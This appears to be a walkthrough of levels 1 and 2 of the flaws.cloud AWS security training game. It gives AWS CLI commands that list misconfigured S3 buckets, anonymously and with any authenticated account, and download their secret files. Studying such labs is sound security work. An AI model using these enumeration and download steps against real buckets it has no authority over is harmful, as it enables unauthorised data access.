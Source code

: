 # [flaws.cloud](http://flaws.cloud)

* [**LEVEL-1**](#level-1)  
* [**LEVEL-2**](#level-2)  
* [**LEVEL-3**](#level-3)  
* [**LEVEL-4**](#level-4)  
* [**LEVEL-5**](#level-5)  
* [**LEVEL-6**](#level-6)  

## Level 1
> [URL](http://flaws.cloud)

**Flaw: Permission Misconfiguration: Anyone could list the bucket content.**


* List the bucket contents for `flaws.cloud`
	```
	aws s3 ls s3://flaws.cloud --no-sign-request
	```
* Get the `html` file
	```
	aws s3 cp s3://flaws.cloud/secret-dd02c7c.html . --no-sign-request
	```
<br/>

## Level 2
> [URL](http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/)

#### [*AWS ACCOUNT AND CLI CONFIGURATION NEEDED !!!*](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html)
Configure AWS CLI with Access Key ID and Secret Access Key
```bash
$ aws configure --profile YOUR_PROFILE                            
AWS Access Key ID [********************]: 
AWS Secret Access Key [********************]: 
Default region name [ap-south-1]: 
Default output format [text]:
```

**Flaw: Any authenticated AWS user could list the bucket contents**

* List the bucket contents for the url using AWS account
	```
	aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud --profile YOUR_PROFILE
	```
* Get the secret html file
	```
	aws s3 cp s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html . --profile YOUR_PROFILE
	```
<br/>
